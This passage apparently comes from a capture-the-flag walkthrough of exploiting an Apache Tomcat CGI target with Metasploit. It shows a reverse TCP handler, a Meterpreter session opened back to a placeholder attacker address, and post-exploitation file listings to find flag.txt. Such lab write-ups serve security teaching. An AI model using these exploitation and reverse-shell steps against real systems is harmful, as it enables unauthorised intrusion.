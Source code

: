 If the `AutoCheck` parameter is left enabled, the exploit fails:

```bash
[*] Started reverse TCP handler on <attacker_ip>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
```
The exploit staged a command stager and delivered a Meterpreter payload. A session was opened:

```bash
[*] Meterpreter session 1 opened (<attacker_ip>:4444 -> <target_ip>:49688) at ...
```

I navigated the file system from the Meterpreter prompt to confirm the environment and locate the flag.


### Post-Exploitation — Locating and Retrieving flag.txt

From Meterpreter I listed the CGI directory to confirm spawn location:

```bash
(Meterpreter 1)(C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi) > dir 

Listing: C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi
========================================================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2021-09-01 09:58:06 -0500  %SystemDrive%
100777/rwxrwxrwx  73802  fil   2021-09-29 11:26:19 -0500  bHPVV.exe
100777/rwxrwxrwx  48     fil   2021-08-31 15:55:04 -0500  cmd.bat
100777/rwxrwxrwx  73802  fil   2025-10-09 06:50:47 -0500  vrmlE.exe

```

I then listed the Administrator Desktop to find the `flag.txt`.

> ⚠️ *Note: in Meterpreter, backslashes inside paths need to be escaped (double \\)*

```bash
(Meterpreter 1)(C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi) > dir C:\\Users\\Administrator\\Desktop

Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2021-08-16 22:48:56 -0500  desktop.ini
100666/rw-rw-rw-  32    fil   2021-09-29 11:22:44 -0500  flag.txt

```
